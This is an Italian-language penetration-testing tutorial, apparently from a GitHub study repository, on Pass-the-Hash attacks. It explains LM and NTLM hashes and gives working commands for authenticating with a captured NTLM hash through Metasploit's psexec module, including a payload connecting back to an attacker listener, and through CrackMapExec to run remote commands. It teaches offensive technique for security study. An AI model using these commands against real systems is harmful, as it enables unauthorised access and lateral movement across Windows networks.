 # Pass The Hash Attack

Il Pass-the-Hash (PtH) è una tecnica che consente di autenticarsi su un sistema remoto senza conoscere la password in chiaro, utilizzando direttamente l’hash NTLM dell’utente. <br>
È un metodo estremamente potente nel contesto del penetration testing perché **bypassa la necessità di conoscere la password vera e propria**, e permette comunque di accedere a servizi remoti che accettano l’autenticazione NTLM (come SMB o WinRM).

Esistono due tipi di HASH:
- **LM (LAN Manager)**: algoritmo obsoleto, case-insensitive (le lettere maiuscole/minuscole sono trattate allo stesso modo), divide le password in due blocchi da 7 caratteri e li cifra con DES. È estremamente debole e vulnerabile a bruteforce.
- **NTLM (NT LAN Manager)**: introdotto con Windows NT, usa un algoritmo basato su MD4, case-sensitive (distingue lettere maiuscole e minuscole), ed è molto più sicuro rispetto a LM, anche se non è salato, quindi vulnerabile a rainbow tables.

In ambienti moderni, **LM è disabilitato per default**, ma NTLM continua ad essere supportato, soprattutto per compatibilità legacy.

La capacità di catturare un hash NTLM è quindi fondamentale: esso rappresenta la “firma” digitale della password, e può essere utilizzato per ottenere l’accesso a risorse di rete, spostarsi lateralmente all'interno dell'infrastruttura e perfino compromettere interi domini Active Directory. <br>
A differenza delle password in chiaro, **gli hash NTLM spesso non vengono ruotati regolarmente** e, una volta ottenuti, **rimangono validi per lunghi periodi**, specialmente se associati ad account amministrativi.

## PSExex in Metasploit

Dopo aver ottenuto accesso a una macchina target con privilegi elevati, e aver estratto gli hash con Kiwi e Mimikatz, salviamo gli hash ottenuti in un file `hash.txt` in modo da poterli utilizzare piú facilmente.

`psexec` è un modulo exploit SMB che consente di autenticarsi tramite hash NTLM senza inserire passwords:
```bash
use exploit/windows/smb/psexec
set RHOST <IP>
set SMBUser Administrator    # é un utente di cui abbiamo l'hash NTLM
set SMBPass <NTLMHash>       # inseriamo l'hash dell'utente
set LHOST <KaliIP>
set LPORT <PORT>             # porta diversa da quella già in uso da meterpeter
set target Native upload     # forza l'upload via SMB (default più compatibile)
run
```
>Perché usare **target Native upload**? <br>
>Questo target è pensato per caricare manualmente il payload via SMB anziché usare metodi alternativi (come Powershell o VBScript) che possono essere bloccati dalle policy.
>È spesso il metodo più compatibile in ambienti legacy.

---

## 3 – Uso di CrackMapExec

**CrackMapExec** è un potente tool per testare la sicurezza dei protocolli SMB, WinRM, RDP e altri. Supporta l'autenticazione Pass-the-Hash:

`crackmapexec smb <IP> -u Administrator -H "<NTLMHash>"  # autentica con hash`

Se l'autenticazione ha successo, verrà visualizzato:
```
SMB         <IP>    445    Pwn3d!
```

Possiamo quindi eseguire comandi remoti con:

`crackmapexec smb <IP> -u Administrator -H "<NTLMHash>" -x "ipconfig"`

Questo comando eseguirà `ipconfig` sulla macchina bersaglio e restituirà l'output direttamente a schermo.

---
